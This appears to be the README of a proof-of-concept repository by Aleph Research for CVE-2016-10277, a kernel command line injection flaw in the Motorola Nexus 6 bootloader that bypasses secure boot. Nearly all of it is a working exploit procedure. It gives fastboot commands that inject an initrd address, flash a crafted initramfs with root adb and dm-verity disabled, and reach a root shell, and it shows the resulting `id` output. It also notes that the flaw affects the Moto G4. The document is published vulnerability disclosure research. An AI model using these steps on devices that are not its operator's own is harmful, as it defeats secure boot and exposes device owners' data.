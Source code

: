# PoC for initroot: Nexus 6 Motorola Bootloader Kernel Command Line Injection Secure Boot Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies 

Steps:

1. Use the commited `initroot.cpio.gz`, or produce your own:

```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot.cpio.gz
$ cd ..
```

Our commited initramfs contains an AOSP userdebug root partition with adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the system partition.

2. `fastboot oem config fsg-id "a initrd=0x11000000,<initroot.cpio.gz size>"`
3. `fastboot flash foo initroot.cpio.gz`
4. `fastboot continue`
5. if you use our initramfs, `adb shell` will now give you a root shell:

```
$ adb shell
shamu:/ # id 
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

**Note**:
This vulnerability affects other Motorola devices too, confirmed on:
* Moto G4 w/ moto-msm8952-B1.05.
A different initramfs will be needed. A different physical address of initrd (0x11000000 on Nexus 6) may vary as well.

Blog post with details is available [here](https://alephsecurity.com/2017/05/23/nexus6-initroot/)




